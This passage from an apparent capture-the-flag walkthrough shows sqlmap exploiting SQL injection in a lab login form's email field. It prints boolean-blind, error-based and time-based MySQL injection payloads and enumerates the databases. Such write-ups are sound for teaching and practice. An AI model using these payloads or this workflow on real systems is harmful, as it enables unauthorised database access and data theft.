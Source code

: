 On sending the request, I’ll turn off intercept, and back in Firefox I’m logged in:

[![image-20210122064126269](https://0xdfimages.gitlab.io/img/image-20210122064126269.png)](https://0xdfimages.gitlab.io/img/image-20210122064126269.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20210122064126269.png)

#### Via SQL Data Dump / Crack

Without logging in, I can exploit this injection to dump data from the database. Because nothing I submit is displayed back to me, I’ll have to use either blind or potentially error-based SQLi. Rather than go deep into that here, I’ll let `sqlmap` have a go at it. I’ll save one of the login requests from Burp by right clicking and selecting Copy to file, and then pass it to `sqlmap`. I’ll need to use `--force-ssl` as the HTTP site isn’t there, and `--batch` will accept the default answers to all the prompts that pop up:

```

root@kali# sqlmap -r login.request --force-ssl --batch
...[snip]...
sqlmap identified the following injection point(s) with a total of 348 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=admin@europacorp.htb' RLIKE (SELECT (CASE WHEN (3528=3528) THEN 0x61646d696e406575726f7061636f72702e687462 ELSE 0x28 END))-- ikPY&password=a

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=admin@europacorp.htb' AND GTID_SUBSET(CONCAT(0x7178787a71,(SELECT (ELT(2615=2615,1))),0x716a787071),2615)-- LvpT&password=a

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@europacorp.htb' AND (SELECT 6362 FROM (SELECT(SLEEP(5)))fgAB)-- fZwX&password=a
---
[06:50:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[06:50:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

```

`sqlmap` found three ways to exploit this, two blind and one error-based. `sqlmap` is smart enough to keep this and apply it to future queries at the same page. I’ll start by listing the DBs:

```

root@kali# sqlmap -r login.request --force-ssl --batch --dbs 
...[snip]...
[06:57:26] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[06:57:26] [INFO] fetching database names
[06:57:27] [INFO] retrieved: 'information_schema'
[06:57:27] [INFO] retrieved: 'admin'
available databases [2]:
[*] admin
[*] information_schema

[06:57:27] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

```
